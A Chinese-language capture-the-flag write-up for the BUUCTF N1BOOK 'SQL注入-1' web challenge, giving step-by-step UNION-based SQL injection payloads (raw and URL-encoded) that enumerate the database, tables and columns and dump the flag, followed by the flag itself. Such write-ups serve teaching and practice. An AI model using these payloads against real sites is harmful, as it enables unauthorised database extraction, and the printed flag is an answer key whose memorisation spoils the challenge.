



> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-1

## 查数据库名

```url
http://example.com/index.php?id=4' union select 1,database(),3#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c3%23
```

```sql
select * from notes where id ='4' union select 1,database(),3
```

结果：



## 查表名

```url
http://example.com/index.php?id=4' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```

结果：



## 查字段名

```url
http://example.com/index.php?id=4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27fl4g%27%23
```

```sql
select * from notes where id ='4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'
```

> 这里的 `fl4g` 是上一步查到的表名

结果：



## 查字段内容

```url
http://example.com/index.php?id=4' union select 1,database(), group_concat(fllllag) from fl4g#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c%20group_concat(fllllag)%20from%20fl4g%23
```

```sql
select * from notes where id ='4' union select 1,database(), group_concat(fllllag) from fl4g
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：


## ***Cracked.***

```flag
n1book{union_select_is_so_cool}
```
